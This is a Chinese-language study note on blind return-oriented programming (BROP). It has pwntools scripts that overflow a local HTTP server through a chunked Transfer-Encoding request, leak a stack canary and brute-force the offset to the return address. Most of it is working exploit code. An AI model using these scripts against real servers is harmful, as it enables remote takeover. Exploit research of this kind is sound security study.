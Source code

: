 ```python
    canary_offset = 5066
    canary = get_canary(canary_offset)
    print(''.join(["\\x%02x" % ord(x) for x in canary]).strip())
```

![image-20220804172426487](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220804172426487.png)

拿到canary = "\x00\x86\xd5\x0f\x2e\xbe\x4c\xaf"

#### 寻找返回地址

canary和返回地址之间还有栈底指针，我们现在爆破出返回地址的位置

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

#context.log_level = "DEBUG"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def get_buf_size(canary_offset,canary):
    i = 1
    while 1:
        s = connect("127.0.0.1", 80)
        s.send(base_payload + "A" * canary_offset + canary + 'A'*i)
        try:
            s.recv(1024)
            s.close()
            log.info("buf_size not is:%d", i)
            i = i + 1
        except:
            s.close()
            log.info("buf_size is:%d", i)
            return i

if __name__ == "__main__":
    # canary_offset = get_canary_offset()
    #canary = get_canary(canary_offset)
    #print(''.join(["\\x%02x" % ord(x) for x in canary]).strip())
    canary_offset = 5066
    canary = "\x00\x86\xd5\x0f\x2e\xbe\x4c\xaf"
    buf_size = get_buf_size(canary_offset,canary)
```

